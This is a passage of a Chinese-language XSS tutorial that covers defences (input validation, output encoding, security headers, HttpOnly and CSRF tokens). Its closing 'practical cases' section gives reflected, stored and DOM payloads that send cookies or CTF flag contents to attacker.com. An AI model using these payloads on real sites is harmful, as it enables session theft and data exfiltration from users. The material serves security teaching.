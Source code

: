 #### 6.1 输入验证
> 长度限制<br>
> 字符白名单<br>
> 正则表达式过滤

#### 6.2 输出编码
> HTML 实体编码<br>
> JavaScript 编码<br>
> URL 编码

#### 6.3 安全响应头
> Content-Security-Policy<br>
> X-XSS-Protection<br>
> X-Content-Type-Options

#### 6.4 其他措施
> 使用 HttpOnly Cookie<br>
> 实施 CSRF 令牌<br>
> 使用安全的框架和库

#### 6.5 DOM 型防御
```javascript
// 输入验证
var a = document.URL;
a = a.substring(a.indexOf("message=") + 8);
a = unescape(a);
var regex = /^([A-Za-z0-9\s]+)$/;
if (regex.test(a)) {
    document.write(a);
}

// 输出编码
function reinit(str) {
    var d = document.createElement('div');
    d.appendChild(document.createTextNode(str));
    return d.innerHTML;
}
```

### 7. 实战案例

#### 7.1 反射型 XSS 利用
```html
<script>document.location.href='https://attacker.com/steal?cookie='+document.cookie</script>
```

#### 7.2 存储型 XSS 利用
```html
<img src="" onerror=location.href="https://attacker.com/steal?cookie="+document.cookie>
```

#### 7.3 DOM 型 XSS 利用
```html
<script>
$('div.layui-table-cell').each(function(index,value){
    if(value.innerHTML.indexOf('flag{')>-1){
        window.location.href='http://attacker.com/'+value.innerHTML;
    }
});
</script>
```
